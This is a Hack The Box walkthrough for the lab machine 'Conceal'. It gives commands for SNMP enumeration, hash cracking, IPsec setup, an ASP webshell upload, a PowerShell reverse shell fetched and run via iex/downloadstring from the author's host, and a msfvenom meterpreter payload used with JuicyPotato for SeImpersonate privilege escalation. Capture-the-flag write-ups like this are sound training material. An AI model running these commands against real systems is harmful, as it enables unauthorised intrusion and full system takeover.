

# [Conceal](https://app.hackthebox.com/machines/conceal)

```bash
nmap -p- -sU --min-rate 5000 10.10.10.116 -Pn
```


Let's look at SNMP to find secrets via `snmpwalk` command.
```bash
snmpwalk -v 2c -c public 10.10.10.116
```


I grab hash from here, and paste into [Crackstation](https://crackstation.net/)

HASH: 9C8B1A372B1878851BE2C097031B6E43


Now, I need to configure IPSEC VPN between target and my machine.

Here's file '/etc/ipsec.conf'.


Here's '/etc/ipsec.secrets'.


Then, I restart and configuration goes into place.

```bash
ipsec restart
ipsec up conceal
```


Now, let's do `nmap` enumeration.

```bash
nmap -p- -sT --min-rate 10000 10.10.10.116 -Pn
```




Let's do directory enumeration.

```bash
gobuster dir -u http://10.10.10.116 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,aspx,asp,html   
```


Also, I enumerate FTP service and see that this FTP service is served through HTTP service.


note.txt file can be seen.


I tried so many web shell payloads by uploading into here, but `.asp` file can be seen.

I take a webshell from [here](https://github.com/tennc/webshell/blob/master/asp/webshell.asp).


I can read user.txt means proof.txt from here by doing `dir` commands.

proof.txt


I added my reverse shell script into 'Invoke-PowerShellTcp.ps1'.
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.6 -Port 1337" >> Invoke-PowerShellTcp.ps1
```


1.Then, I open HTTP server to serve this script.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


2.Then, on my webshell, I execute this script.
```bash
powershell iex(New-Object Net.Webclient).downloadstring('http://10.10.16.6:8080/Invoke-PowerShellTcp.ps1')
```


I got reverse shell from port (1337)..


I looked at privileges of this user via `whoami /priv` command.


I see that `SeImpersonatePrivilege` is enabled, let's abuse this.

1.First, I need to create malicious `.exe` file.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.6 LPORT=1338 --arch x64 -f exe > dr4ks.exe
```


2.Then, I open http server.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


3.Then, download this files via `wget` command.
```bash
wget http://10.10.16.6:8080/JuicyPotato.exe -outfile JuicyPotato.exe
wget http://10.10.16.6:8080/dr4ks.exe -outfile dr4ks.exe
```


Let's execute the payload as below.

```bash
./JuicyPotato.exe -l 1338 -p dr4ks.exe -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```


I got reverse shell from port (1338).


root.txt

